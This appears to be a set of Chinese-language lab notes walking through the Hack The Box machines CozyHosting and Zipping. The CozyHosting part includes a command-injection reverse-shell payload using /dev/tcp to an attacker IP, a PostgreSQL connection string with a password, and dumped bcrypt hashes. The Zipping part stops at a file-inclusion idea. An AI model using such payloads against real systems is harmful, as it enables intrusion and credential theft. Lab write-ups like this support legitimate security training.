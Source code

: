 ## CozyHosting
#eASY #Linux

nmap 扫描端口

dirsearch 扫描目录

![](attachments/Pasted%20image%2020230910150836.png)

`http://cozyhosting.htb/actuator/sessions`

![](attachments/Pasted%20image%2020230910150903.png)

配置cookie登录，访问admin

![](attachments/Pasted%20image%2020230910151303.png)

host ：127.0.0.1
username: root

![](attachments/Pasted%20image%2020230910153419.png)

这里应该是命令执行 ssh


![](attachments/Pasted%20image%2020230910153533.png)

带有username和host的是`[-J [user@]host[:port]]`

```
;`(sh)0>/dev/tcp/10.10.16.8/9999`
exec >&0
```
![](attachments/Pasted%20image%2020230910164753.png)

script /dev/null -c bash 美化

![](attachments/Pasted%20image%2020230910164957.png)

python 将jar包下载

![](attachments/Pasted%20image%2020230910195809.png)


`psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost/postgres"`

连接进入

![](attachments/Pasted%20image%2020230911075447.png)

```
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

## Zipping
#Linux #Medium
nmap没有扫到其他多余端口

dirseach扫描

![](attachments/Pasted%20image%2020230913102902.png)



![](attachments/Pasted%20image%2020230913102958.png)

没有办法上传php，但是考验利用link实现文件包含

![](attachments/Pasted%20image%2020230913104433.png)

